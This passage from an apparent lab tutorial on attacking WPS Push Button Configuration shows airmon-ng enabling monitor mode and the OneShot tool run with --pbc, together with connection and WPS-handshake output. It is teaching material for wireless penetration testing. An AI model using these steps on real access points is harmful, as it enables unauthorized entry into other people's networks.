 ```shell
sudo dhclient wlan0

```

We can verify the connection, using `ifconfig` to confirm that we've successfully connected to the access point and received an IP address.

```shell
ifconfig

wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.23  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 02:00:00:00:01:00  txqueuelen 1000  (Ethernet)
        RX packets 43  bytes 6665 (6.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 42  bytes 7530 (7.5 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

### Using Oneshot

We can also use [Oneshot](https://github.com/fulvius31/OneShot/tree/master) to automate the exploitation of PBC. Oneshot will automatically generate the valid WPS PIN and WPA passphrase for the access point.

To use Oneshot, we first need to enable monitor mode on the `wlan0` interface by using `airmon-ng`.

```shell
airmon-ng start wlan0

Found 5 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    183 avahi-daemon
    205 wpa_supplicant
    215 avahi-daemon
    225 NetworkManager
   1215 dhclient

PHY	Interface	Driver		Chipset

phy1	wlan0		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

```

Once monitor mode is enabled, we can run Oneshot with the `--pbc` argument to connect using PBC mode.

```shell
python3 /opt/OneShot/oneshot.py -i wlan0mon --pbc

[*] Running wpa_supplicant…
[*] Starting WPS push button connection…
[*] Scanning…
[*] Selected AP: D8:D6:3D:EB:29:D5
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with D8:D6:3D:EB:29:D5 (ESSID: HackTheWireless)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Sending WPS Message M1…
[*] Received WPS Message M2
```